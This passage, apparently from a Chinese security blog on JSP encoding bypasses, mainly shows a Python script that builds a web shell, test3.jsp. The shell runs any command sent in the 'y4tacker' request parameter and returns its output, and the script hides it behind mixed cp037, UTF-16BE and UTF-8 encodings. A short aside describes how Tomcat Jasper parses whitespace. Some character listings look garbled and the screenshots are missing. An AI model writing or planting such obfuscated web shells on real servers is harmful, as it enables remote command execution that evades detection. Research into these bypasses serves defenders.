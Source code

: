 这里我按要求随便写了一个符合的例子

    
    
    a0 = '''<?xml version="1.0" encoding='cp037'?>'''  
    a1 = '''<%  
        Process p = Runtime.getRuntime().exec(request.getParameter("y4tacker"));  
        java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));  
        String line = "'''  
    a2 = '''<%@ page pageEncoding="UTF-16BE"%>'''  
    a3 = '''";  
        while ((line = input.readLine()) != null) {  
            out.write(line+"\\n");  
        }  
    %>'''  
    with open("test3.jsp","wb") as f:  
        f.write(a0.encode("utf-8"))  
        f.write(a1.encode("utf-16be"))  
        f.write(a2.encode("cp037"))  
        f.write(a3.encode("utf-16be"))

生成三重编码文件

![]()12.png

测试利用

![]()13.png

## 其他

其实在这个过程当中还顺便发现了一个有趣的东西，虽然和讲编码的主题无关，但个人觉得比较有意思就顺便放在最后了，对于jsp不同的部分对应的空格判定是不同的

比如在对xml文件头做解析的时候(``)

这里调用的是`org.apache.jasper.xmlparser.XMLChar#isSpace`

    
    
    public static boolean isSpace(int c) {  
            return c <= 0x20 && (CHARS[c] & MASK_SPACE) != 0;  
    } 

省去给大家看常量浪费时间，这里当课代表总结一下就是四个字符`\x0d`、`\x0a9`、`\x0a`、`\x0d`

而在识别`<%@ page language="java"
pageEncoding="utf-16be"%>`这部分中对空格的判定调用的是`org.apache.jasper.compiler.JspReader#isSpace`，这里判断的空格只要保证在`\x20`之前即可

    
    
    final boolean isSpace() {  
      return peekChar() <= ' ';  
    }

当然更多的部分就不多说啦，毕竟已经和本文由点偏离啦
